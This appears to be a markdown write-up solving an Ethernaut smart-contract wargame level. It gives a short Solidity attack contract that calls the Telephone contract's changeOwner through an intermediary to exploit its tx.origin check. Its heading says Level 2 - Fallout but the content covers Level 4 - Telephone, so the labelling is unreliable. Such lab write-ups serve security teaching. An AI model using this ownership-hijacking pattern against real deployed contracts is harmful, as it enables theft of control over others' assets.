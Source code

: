 <div align="center">

<img src="../assets/levels/2-fallout.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 2 - Fallout</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Level 4 - Telephone](#level-4---telephone)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Objectif

<img src="../assets/requirements/2-fallout-requirements.webp" width="800px"/>

## The hack

## Level 4 - Telephone

This is a simple one, but exposes the player to an important attact vector - "tx.origin" phishing
Writeup on phishing attacks: https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks

## Solution

Write another contract that calls the deployed Telephone contract and passes in the new owner address

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Telephone.sol";

contract TelephoneAttack {
    Telephone public telephone;

    constructor(address _telephoneAddress) {
        telephone = Telephone(_telephoneAddress);
    }

    function callChangeOwner() public {
        telephone.changeOwner(msg.sender);
    }
}
```

## Takeaway

- Usage of tx.origin should be done with care, it can lead to phishing attacks, useful in certain cases where you want EOA accounts to call a function for example

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
